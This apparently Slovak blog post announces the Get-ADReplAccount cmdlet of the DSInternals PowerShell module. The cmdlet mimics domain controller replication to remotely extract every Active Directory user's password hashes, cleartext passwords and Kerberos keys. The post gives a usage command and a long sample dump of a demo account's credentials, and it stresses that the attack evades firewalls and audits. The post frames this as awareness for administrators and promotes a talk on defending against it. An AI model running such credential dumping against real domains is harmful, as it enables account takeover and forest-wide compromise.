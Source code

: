 ```yaml
---
id: 6381
title: 'Vykrádanie hesiel z&nbsp;Active Directory na&nbsp;diaľku'
date: 2015-10-28T12:01:41+00:00
author: Michael Grafnetter
layout: revision
guid: https://www.dsinternals.com/4161-revision-v1/
permalink: /4161-revision-v1/
---
```

<p style="text-align: justify;">
  Predstavujem Vám príkaz <b>Get-ADReplAccount</b>, najnovší prírastok do&nbsp;môjho <a href="https://www.dsinternals.com/sk/na-stiahnutie/">PowerShell modulu DSInternals</a>, ktorý umožňuje z doménových kontrolérov na&nbsp;diaľku získať plaintextové heslá, hashe hesiel a Kerberos kľúče všetkých používateľov. Toho dosahuje tým, že&nbsp;simuluje chovanie príkazu <strong>dcromo</strong> a&nbsp;cez&nbsp;protokol <a href="https://msdn.microsoft.com/en-us/library/cc228086.aspx">MS-DRSR</a> si&nbsp;vytvorí repliku všetkých dát v&nbsp;Active Directory databáze. Podľa mojich informácií sa&nbsp;jedná o&nbsp;jediný verejne dostupný nástroj svojho druhu na&nbsp;svete. Ďalej má tieto vlastnosti:
</p>

<li style="text-align: justify;">
  Ku svojej činnosti nevyžaduje ani práva doménového správcu. Bohate si&nbsp;vystačí s&nbsp;oprávnením <strong>Replicating Directory Changes All</strong>, ktoré má napríklad DirSync, Cisco WAAS či&nbsp;zle nakonfigurovaný SharePoint.
</li>
<li style="text-align: justify;">
  Otvára dvere dokorán ďalším útokom, ako sú pass-the-hash, pass-the-ticket či&nbsp;PAC spoofing, pomocou ktorých je&nbsp;útočník schopný dostať pod&nbsp;kontrolu celý Active Directory forest. Takéto útoky zvláda napríklad nástroj <a href="http://blog.gentilkiwi.com/mimikatz">mimikatz</a>.
</li>
<li style="text-align: justify;">
  Nedá sa&nbsp;zablokovať pomocou firewallu, pretože by&nbsp;to&nbsp;obmedzilo základnú funkčnosť Active Directory.
</li>
<li style="text-align: justify;">
  V&nbsp;logoch na&nbsp;doménovom radiči zanecháva len&nbsp;minimálnu stopu, ktorú prehliadne väčšina bezpečnostných auditov.
</li>
<li style="text-align: justify;">
  Nezneužíva žiadnu bezpečnostnú zraniteľnosť, ktorá by&nbsp;sa&nbsp;dala jednoducho opraviť v&nbsp;rámci aktualizácie systému.
</li>
<li style="text-align: justify;">
  Jeho použitie nevyžaduje žiadne špeciálne vedomosti či&nbsp;prípravu. Útočníkovi stačí základná znalosť Active Directory.
</li>

Príklad použitia:

<pre class="lang:ps decode:true">Import-Module DSInternals
$cred = Get-Credential
Get-ADReplAccount -SamAccountName April -Domain Adatum -Server LON-DC1 `
-Credential $cred -Protocol TCP</pre>

Ukážkový výstup:

<pre class="nums:false lang:default highlight:0 decode:true">DistinguishedName: CN=April Reagan,OU=IT,DC=Adatum,DC=com
Sid: S-1-5-21-3180365339-800773672-3767752645-1375
Guid: 124ae098-699b-4450-a47a-314a29cc90ea
SamAccountName: April
SamAccountType: User
UserPrincipalName: April@adatum.com
PrimaryGroupId: 513
SidHistory: 
Enabled: True
Deleted: False
LastLogon: 
DisplayName: April Reagan
GivenName: April
Surname: Reagan
Description: 
NTHash: 92937945b518814341de3f726500d4ff
LMHash: 727e3576618fa1754a3b108f3fa6cb6d
NTHashHistory: 
  Hash 01: 92937945b518814341de3f726500d4ff
  Hash 02: 1d3da193d2f45911a6f0fa940b9fb32f
  Hash 03: 402bc59d8a00641b7f386e78596340f4
LMHashHistory: 
  Hash 01: 727e3576618fa1754a3b108f3fa6cb6d
  Hash 02: 5a5503d0e85f58abaad3b435b51404ee
  Hash 03: f9393d97e7a1873caad3b435b51404ee
SupplementalCredentials:
  ClearText: Pa$$w0rd
  Kerberos:
    Credentials:
      DES_CBC_MD5
        Key: 76fe3b5bda911a40
    OldCredentials:
      DES_CBC_MD5
        Key: 7f8c4f38e0ea0b80
    Salt: ADATUM.COMApril
    Flags: 0
  KerberosNew:
    Credentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 3a3b6a89bb82d112db5ef68f6db5d1afc2b806df61dcd85e3eacf3b85ee382d8
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: a72c8bc96c4a6f03244f0b0067a1e440
        Iterations: 4096
      DES_CBC_MD5
        Key: 76fe3b5bda911a40
        Iterations: 4096
    OldCredentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 14e46244a59a37cd8aa7c1fe61896441c7d065fafe4874191e69c1fe28856810
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: 034b512ec64286dec951d6aff8d81fa8
        Iterations: 4096
      DES_CBC_MD5
        Key: 7f8c4f38e0ea0b80
        Iterations: 4096
    OlderCredentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 2387ca8f936c8c154996809af8fee7c47fe4b9b5dd84d051fc43a9289bbaa3ab
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: 29d536ec057f9063747161429b81f056
        Iterations: 4096
      DES_CBC_MD5
        Key: 58f1cbe6e50e1f83
        Iterations: 4096
    ServiceCredentials:
    Salt: ADATUM.COMApril
    DefaultIterationCount: 4096
    Flags: 0
  WDigest:
    Hash 01: c3d012ab1101eb8f51b483fb4c5f8a7e
    Hash 02: c993da396914645b356ae7816251fcb1
    Hash 03: 6b58530cab34de91189a603e22c2be15
    Hash 04: c3d012ab1101eb8f51b483fb4c5f8a7e
    Hash 05: 5a762cf59fa31023dcba1ebd4725b443
    Hash 06: c78bac91c0ba25cae5d44460fd65a73b
    Hash 07: 59d73cea16afd1aac6bf8acfa2768621
    Hash 08: d2be383db9469a39736d9e2136054131
    Hash 09: 079de9f4d94d97a80f1726497dfd1cc2
    Hash 10: 85dbe1549d5fbfcc91f7fe5ac5910f52
    Hash 11: 961a36bded5535b8fc15b4b8e6c48b93
    Hash 12: 6ac8a60d83e9ae67c2097db716a6af17
    Hash 13: e899e577d5f81ef5288ab67de07fad9a
    Hash 14: 135452ab86d40c3d47ca849646d5e176
    Hash 15: a84c367eaa334d0a4cb98e36da011e0f
    Hash 16: 61a458eb70440b1a92639452f0c2c948
    Hash 17: 238f4059776c3575be534afb46be4ccf
    Hash 18: 03ddf370064c544e9c6dbb6ccbf8f4ac
    Hash 19: 354dd6c77ccf35f63e48cd5af6473ccf
    Hash 20: 5f9800d734ebe9fb588def6aaafc40b7
    Hash 21: 59aab99ebcddcbf13b96d75bb7a731e3
    Hash 22: f1685383b0c131035ae264ee5bd24a8d
    Hash 23: 3119e42886b01cad00347e72d0cee594
    Hash 24: ebef7f2c730e17ded8cba1ed20122602
    Hash 25: 7d99673c9895e0b9c484e430578ee78e
    Hash 26: e1e20982753c6a1140c1a8241b23b9ea
    Hash 27: e5ec1c63e0e549e49cda218bc3752051
    Hash 28: 26f2d85f7513d73dd93ab3afd2d90cf6
    Hash 29: 84010d657e6b58ce233fae2bd7644222</pre>

<p style="text-align: justify;">
  Potenciál tohoto útoku je&nbsp;teda veľký a&nbsp;mal by&nbsp;si&nbsp;toho byť minimálne vedomý každý manažér bezpečnosti a&nbsp;správca Active Directory.
</p>

<p style="text-align: justify;">
  Ak chcete tento aj&nbsp;ďalšie druhy hackerských útokov na&nbsp;AD vidieť naživo a&nbsp;dozvedieť sa, ako sa&nbsp;proti nim brániť, nenechajte si&nbsp;ujsť moju prednášku <a href="https://www.hackerfest.cz/prednasky/#offlineaonlineutokynaactivedirectorydatabazi">Offline a&nbsp;online útoky na&nbsp;Active Directory databázu</a> na&nbsp;tohtoročnom <a href="https://www.hackerfest.cz/">HackerFeste</a>. Ja sám sa&nbsp;teším na&nbsp;prednášky <a href="https://www.hackerfest.cz/prednasky/#nepratelenajednomsmetisti">Ondřeja Ševečka</a> a&nbsp;<a href="https://www.hackerfest.cz/speaker-lineup/william-ischanoe-2/">Williama Ischanoeho</a>. A&nbsp;pokiaľ si&nbsp;ma &#8220;odchytíte&#8221; medzi prednáškami, rád sa&nbsp;s&nbsp;Vami porozprávam pri kávičke, nielen o&nbsp;bezpečnosti Active Directory.
</p>